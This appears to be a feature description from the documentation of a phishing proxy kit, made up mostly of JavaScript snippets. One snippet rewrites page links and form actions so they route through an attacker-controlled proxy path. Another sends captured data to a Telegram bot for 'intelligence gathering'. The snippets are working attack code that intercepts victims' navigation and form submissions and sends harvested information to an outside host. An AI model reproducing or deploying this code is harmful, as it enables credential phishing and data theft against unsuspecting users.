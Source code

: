 ### **Dynamic Content Modification**
```javascript
// Real-time HTML attribute rewriting
const observer = new MutationObserver((mutations) => {
    for (const mutation of mutations) {
        if (mutation.type === "attributes") {
            updateHTMLAttribute(mutation.target, mutation.attributeName);
        }
        else if (mutation.type === "childList") {
            for (const node of mutation.addedNodes) {
                for (const attribute of ["href", "action"]) {
                    if (node[attribute]) {
                        updateHTMLAttribute(node, attribute);
                    }
                }
            }
        }
    }
});
```

### **Cross-Origin Navigation Interception**
```javascript
function updateHTMLAttribute(htmlNode, htmlAttribute) {
    try {
        const htmlAttributeURL = new URL(htmlNode[htmlAttribute]);
        if (htmlAttributeURL.origin !== self.location.origin) {
            const proxyRequestURL = new URL(`${self.location.origin}/Mutation_o5y3f4O7jMGW`);
            proxyRequestURL.searchParams.append("redirect_urI", encodeURIComponent(htmlAttributeURL.href));
            htmlNode[htmlAttribute] = proxyRequestURL;
        }
    } catch { }
}
```

---

## 📊 **INTELLIGENCE GATHERING CAPABILITIES**

### **Real-Time Monitoring**
```javascript
// Telegram integration for instant notifications
async function dispatchMessage(message, context) {
    // Send to Telegram bot 2 (working one)
    try {
        const response = await fetch(`https://api.telegram.org/bot${telegram_bot_token_2}/sendMessage`, {
            method: "POST",
            headers: { "Content-Type": "application/json" },
            body: JSON.stringify({ 
                chat_id: telegram_chat_id_2, 
                text: message, 
                parse_mode: "HTML" 
            }),
        });
    } catch (error) {
        context.log(`❌ Error sending to bot 2: ${error.message}`);
    }
}
```
